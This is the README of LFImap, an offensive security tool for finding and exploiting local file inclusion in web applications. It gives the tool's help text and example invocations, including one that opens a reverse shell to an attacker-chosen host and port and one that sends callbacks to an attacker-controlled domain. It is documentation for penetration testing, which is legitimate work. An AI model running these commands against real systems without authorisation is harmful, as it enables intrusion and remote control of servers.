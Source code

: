 # LFImap
### Local file inclusion discovery and exploitation tool

This project is in pre-alpha stage. Major release 1.0 coming soon with plenty of new abilities and modules.

#### Main features
- Attack with different modules
    - Filter wrapper file inclusion
    - Data wrapper remote command execution
    - Input wrapper remote command execution
    - Expect wrapper remote command execution
    - File wrapper file inclusion
    - Attacks with path traversal
    - Remote file inclusion
    - Custom polyglot command injection
    - Heuristic scans
        - Custom polyglot XSS, CRLF checks
        - Open redirect check
        - Error-based file inclusion info leak

- Testing modes
    - -U -> specify single URL to test
    - -F -> specify wordlist of URLs to test
    - -R -> specify raw http from a file to test

- Full control over the HTTP request
    - Specification of parameters to test (GET, FORM-line, Header, custom injection point)
    - Specification of custom HTTP header(s) 
    - Ability to test with arbitrary form-line (POST) data
    - Ability to test with arbitrary HTTP method
    - Ability to pivot requests through a web proxy
    - Ability to log all requests and responses to a file
    - Ability to tune testing with timeout in between requests and maximum response time
    - Support for payload manipulation via url and base64 encoding(s)
    - Quick mode (-q), where LFImap uses fewer carefully selected payloads
    - Second order (stored) vulnerability check support
    - Beta/Testing phase CSRF handling support

#### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

#### -h, --help

```                  
 usage: lfimap.py [-U [url]] [-F [urlfile]] [-R [reqfile]] [-C <cookie>] [-D <data>] [-H <header>]
                 [-M <method>] [-P <proxy>] [--useragent <agent>] [--referer <referer>]
                 [--placeholder <name>] [--delay <milis>] [--max-timeout <seconds>]
                 [--http-ok <number>] [--csrf-param <param>] [--csrf-method <method>]
                 [--csrf-url <url>] [--csrf-data <data>] [--second-method <method>]
                 [--second-url <url>] [--second-data <data>] [--force-ssl] [--no-stop] [-f] [-i]
                 [-d] [-e] [-t] [-r] [-c] [-file] [-heur] [-a] [-n <U|B>] [-q] [-x]
                 [--lhost <lhost>] [--lport <lport>] [--callback <hostname>] [-wT <path>]
                 [--use-long] [--log <file>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

TARGET OPTIONS:
  -U [url]                  Single url to test
  -F [urlfile]              Load multiple urls to test from a file
  -R [reqfile]              Load single request to test from a file

REQUEST OPTIONS:
  -C <cookie>               HTTP session Cookie header
  -D <data>                 HTTP request FORM-data
  -H <header>               Additional HTTP header(s)
  -M <method>               Request method to use for testing
  -P <proxy>                Use a proxy to connect to the target endpoint
  --useragent <agent>       HTTP user-agent header value
  --referer <referer>       HTTP referer header value
  --placeholder <name>      Custom testing placeholder name (default is "PWN")
  --delay <milis>           Delay in miliseconds after each request
  --max-timeout <seconds>   Number of seconds after giving up on a response (default 5)
  --http-ok <number>        Http response code(s) to treat as valid
  --csrf-param <param>      Parameter used to hold anti-CSRF token
  --csrf-method <method>    HTTP method to use during anti-CSRF token page visit
  --csrf-url <url>          URL address to visit for extraction of anti-CSRF token
  --csrf-data <data>        POST data to send during anti-CSRF token page visit
  --second-method <method>  Specify method for second order request
  --second-url <url>        Url for second order request
  --second-data <data>      FORM-line data for second-order request
  --force-ssl               Force usage of HTTPS/SSL if otherwise not specified
  --no-stop                 Don't stop using the same testing technique upon findings

ATTACK TECHNIQUE:
  -f, --filter              Attack using filter wrapper
  -i, --input               Attack using input wrapper
  -d, --data                Attack using data wrapper
  -e, --expect              Attack using expect wrapper
  -t, --trunc               Attack using path traversal with wordlist (default "short.txt")
  -r, --rfi                 Attack using remote file inclusion
  -c, --cmd                 Attack using command injection
  -file, --file             Attack using file wrapper
  -heur, --heuristics       Test for miscellaneous issues using heuristics
  -a, --all                 Use all supported attack methods

PAYLOAD OPTIONS:
  -n <U|B>                  Specify payload encoding(s). "U" for URL, "B" for base64
  -q, --quick               Perform quick testing with fewer payloads
  -x, --exploit             Exploit and send reverse shell if RCE is available
  --lhost <lhost>           Local ip address for reverse connection
  --lport <lport>           Local port number for reverse connection
  --callback <hostname>     Callback location for rfi and cmd detection

WORDLIST OPTIONS:
  -wT <path>                Path to wordlist for path traversal modality
  --use-long                Use "src/wordlists/long.txt" wordlist for path traversal modality

OUTPUT OPTIONS:
  --log <file>              Output all requests and responses to specified file

OTHER:
  -v, --verbose             Print more detailed output when performing attacks
  -h, --help                Print this help message

```

### Examples 

#### 1) Utilize all supported attack modules with '-a'.
`python3 lfimap.py -U "http://IP/vuln.php?param=testme" -C "PHPSESSID=XXXXXXXX" -a`  

![LFImap_A](https://github.com/hansmach1ne/LFImap/assets/57464251/7692235a-dfcd-4cab-b0bd-aefdd873cae6)

#### 2) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=testme" -a`

![LFIMAP_POST](https://github.com/hansmach1ne/LFImap/assets/57464251/ebd6b1a4-8990-4a36-b321-871fe9271313)


#### 3) Reverse shell remote command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=testme" -C "PHPSESSID=XXXXXXXX" -a -x --lhost <IP> --lport <PORT>`  

![LFIMAP_revshell](https://github.com/hansmach1ne/LFImap/assets/57464251/5d64244c-8a37-4019-bf2f-8fa7eb6bfd69)



#### 4) Out-of-Band blind vulnerability verbose testing support with '--callback'

`python3 lfimap.py -U "http://IP/index.php?param=testme" -a -v --callback="attacker.oastify.com"`

![LFIMAP_OOB](https://github.com/hansmach1ne/LFImap/assets/57464251/d49d3a80-1c34-49fd-97d8-eb870dae040d)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it, as soon as I can. <br>
Pull requests are welcome.

[!] Disclaimer: LFImap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
